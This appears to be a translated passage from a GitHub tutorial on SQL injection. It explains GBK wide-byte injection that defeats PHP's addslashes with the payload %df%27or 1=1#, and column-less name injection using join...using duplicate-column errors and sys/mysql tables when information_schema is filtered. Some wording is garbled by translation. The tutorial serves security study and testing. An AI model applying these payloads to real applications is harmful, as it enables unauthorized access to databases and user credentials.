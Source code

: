 ````sql

````sql
SET character_set_client = 'gbk';
SET character_set_results = 'gbk';
SET character_set_connection = 'gbk';
```

When the input data is `username=%df%27or%201=1%23&password=123`, after processing of the `addslashes` function, it finally becomes `username=%df%5c%27or%201=1%23&password=123`, after decoding `gbk`, we get `username=run'or 1=1#` and `password=123`, and the `SQL` statement is as follows, and the escape limit of `addslashes` is successfully broken:

````sql
select * from users where username = 'run'or 1=1#' and password='123';
```
The principle is as follows:
 - When the `SQL` statement communicates with the database, the corresponding encoding set by the `character_set_client` of the `SQL` statement will be first transcoded, that is, converted to `gbk` encoding. Since the encoding of `PHP` is `UTF-8`, when the input content is `%df%27`, it will be treated as two characters, and will be processed by the function `addslashes` to become `%df%5c%27`. After the `character_set_client` encoding process is processed by the client layer, it will become `run`, and the backslash is successfully removed, causing single quotes to escape. You can refer to [A Brief Analysis of Character Coding and SQL Injection in White Box Audit] (https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html).


### Uncolumn name injection
Column-less name injection is generally accompanied by `bypass information_schema`. When this table is filtered, you can only bypass `sys.schema_auto_increment_columns`, `sys.schema_table_statistics_with_buffer`, `mysql.innodb_table_stats`, etc., but these tables generally do not have field names, so you can only get table names. Therefore, after knowing that the statement, you need to further use column-less name injection.

#### Column name duplication (join...using)
Conditions of use: Requires an error report.

````sql
select * from (select * from users a join users b)c;
select * from (select * from users a join users b using(id))c;
select * from (select * from users a join users b using(id,username))c;
```

<div align=center><img src="./images/5.png"></div>

`join...using` principle: The `JOIN` clause is used to combine rows from two or more tables based on common fields between tables.

````sql
select * from users join catfishblog_users on users.id = catfishblog_users.id;
```

<div align=center><img src="./images/6.png"></div>

````sql
select * from users join catfishblog_users using(id);
```

<div align=center><img src="./images/7.png"></div>

````sql
select * from users,catfishblog_users where users.id
= catfishblog_users.id;
```

<div align=center><img src="./images/8.png"></div>
````